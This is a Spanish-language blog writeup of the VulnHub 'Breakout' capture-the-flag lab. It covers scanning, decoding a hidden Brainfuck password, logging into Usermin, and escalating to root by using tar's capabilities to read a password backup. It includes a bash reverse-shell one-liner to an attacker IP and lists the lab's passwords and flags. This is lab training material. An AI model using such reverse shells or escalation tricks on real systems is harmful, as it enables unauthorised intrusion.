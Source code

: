 ```yaml
---
title: "Breakout"
excerpt: "[Easy][Vulnhub] Writeup de Breakout."
header:
  teaser: ""
tags:
  - vulnhub
  - easy
  - writeup
categories:
  - vulnhub
---
```

[https://www.vulnhub.com/series/empire,507/](https://www.vulnhub.com/series/empire,507/)

```bash
sudo nmap -vvv -sS -sV -O 192.168.1.0/24
```

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/breakout/1.png){: .align-center}

Saldrá la máquina breakout

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/breakout/2.png){: .align-center}

Entrar al servidor web con la dirección `192.168.1.146`, saldrá la web por defecto de Apache

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/breakout/3.png){: .align-center}

Dar click derecho e inspeccionar elemento y saldrá un mensaje encriptado

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/breakout/4.png){: .align-center}

Usar el identificador de cifrado de la web decode.fr, dirá que es cifrado Brainfuck

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/breakout/5.png){: .align-center}

Usar el descifrador Brainfuck

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/breakout/6.png){: .align-center}

Tratar de intentar entrar al servidor web con otro de los puertos abiertos, en este caso el 20000

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/breakout/7.png){: .align-center}

Dirá que es un servidor bajo SSL por lo que recomienda acceder con https en lugar de http, cambiamos y saldrá la advertencia de sitio inseguro

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/breakout/8.png){: .align-center}

Pulsar en avanzado y en aceptar el riesgo y continuar

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/breakout/9.png){: .align-center}

Saldrá un login para Usermin

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/breakout/10.png){: .align-center}

Usar enum4linux para descubrir el usuario que se encuentra en el equipo

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/breakout/11.png){: .align-center}

Saldrá el usuario cyber

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/breakout/12.png){: .align-center}

Usar el usuario cyber y la contraseña descifrada anteriormente

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/breakout/13.png){: .align-center}

Cargará el siguiente panel

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/breakout/14.png){: .align-center}

En la parte inferior se encontrarán unos botones, uno de ellos permitirá abrir una shell

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/breakout/15.png){: .align-center}

Entrará al directorio personal de cyber y con dicho usuario

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/breakout/16.png){: .align-center}

Listar el contenido, mostrará un archivo llamado `user.txt`

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/breakout/17.png){: .align-center}

Mostrará el flag del usuario

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/breakout/18.png){: .align-center}

Usar el comando `getcap` con el archivo tar

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/breakout/19.png){: .align-center}

Ir a `/var/backups` y mostrar el contenido

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/breakout/20.png){: .align-center}

Volver al home de cyber y usar el archivo tar para comprimir el archivo `.old_pass.bak`

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/breakout/21.png){: .align-center}

Descomprimir el archivo creado

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/breakout/22.png){: .align-center}

Se creará un directorio llamado var, dentro de él otro llamado backups y dentro de este estará el archivo `.old_pass.bak` que ahora se podrá leer

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/breakout/23.png){: .align-center}

Mostrará una contraseña para el usuario root

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/breakout/24.png){: .align-center}

Al tratar de usar el comando su no lo permitirá

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/breakout/25.png){: .align-center}

Hacer un reverse shell con el comando
```bash
bash -i >& /dev/tcp/192.168.1.127/4444 0>&1
```

Y poner el puerto de escucha en 4444

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/breakout/26.png){: .align-center}

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/breakout/27.png){: .align-center}

Se abrirá un shell inverso aunque aún con el usuario cyber

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/breakout/28.png){: .align-center}

Hacer de nuevo un cat al archivo para poder copiar la contraseña

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/breakout/29.png){: .align-center}

Cambiar de usuario con su, cambiará al usuario root aunque sin mostrar texto, de todos modos se pueden escribir comandos

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/breakout/30.png){: .align-center}

Ir al directorio de root y mostrar el contenido

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/breakout/31.png){: .align-center}

Mostrará el flag del usuario root

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/breakout/32.png){: .align-center}

## Usuarios y contraseñas

Cyber= .2uqPEfj3D<P'a-3
Root= Ts&4&YurgtRX(=~h

## Flags

Usuario:  3mp!r3{You_Manage_To_Break_To_My_Secure_Access}

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/breakout/33.png){: .align-center}

Root: 3mp!r3{You_Manage_To_BreakOut_From_My_System_Congratulation}

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/breakout/34.png){: .align-center}
